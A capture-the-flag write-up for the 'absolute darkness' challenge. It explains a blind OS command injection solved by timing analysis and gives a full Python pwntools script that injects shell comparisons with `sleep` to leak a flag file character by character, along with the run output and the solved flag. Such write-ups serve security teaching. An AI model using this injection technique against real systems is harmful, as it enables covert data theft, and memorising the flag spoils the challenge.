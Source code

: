 # absolute darkness

## Write-up

This one can be seen as a blind OS command injection where we have to do some 
time analysis in order to retrieve the command output.  
The idea is to compare the flag's characters one at a time against all possible 
characters pointed out in the regex (alphanumeric + underscore). 

Here's a [script](./xpl.py) that automates this process, `TIMEOUT` and `SLEEP` may 
be altered according to your latency to the challenge host.  

```python
#!/usr/bin/python3
from string import ascii_letters, digits
from pwn import *

HOST, PORT = "localhost", 1337
CHARSET = "_}" + ascii_letters + digits
# Increase these if latency to the challenge is high
TIMEOUT = 0.05
SLEEP = 0.1


flag = "shellmates{"
r = remote(HOST, PORT)
r.recvuntil("$ ")

while "}" not in flag:
    for char in CHARSET:
        r.sendline(
            f"[ `cut -c{len(flag) + 1} flag.txt` = {char} ] && sleep {SLEEP}"
        )
        if not r.recvuntil("$ ", timeout=TIMEOUT):
            r.recvuntil("$ ")
            flag += char
            r.success(f"{flag}")
            break
```

Run the exploit:  

```
$ python3 xpl.py
[+] Opening connection to localhost on port 6002: Done
[+] shellmates{i
[+] shellmates{i_
[+] shellmates{i_S
[+] shellmates{i_ST
[+] shellmates{i_STi
[+] shellmates{i_STil
[+] shellmates{i_STilL
[+] shellmates{i_STilL_
[+] shellmates{i_STilL_c
[+] shellmates{i_STilL_c4
[+] shellmates{i_STilL_c4n
[+] shellmates{i_STilL_c4n_
[+] shellmates{i_STilL_c4n_S
[+] shellmates{i_STilL_c4n_SE
[+] shellmates{i_STilL_c4n_SEE
[+] shellmates{i_STilL_c4n_SEE}
```

## Flag

`shellmates{i_STilL_c4n_SEE}`
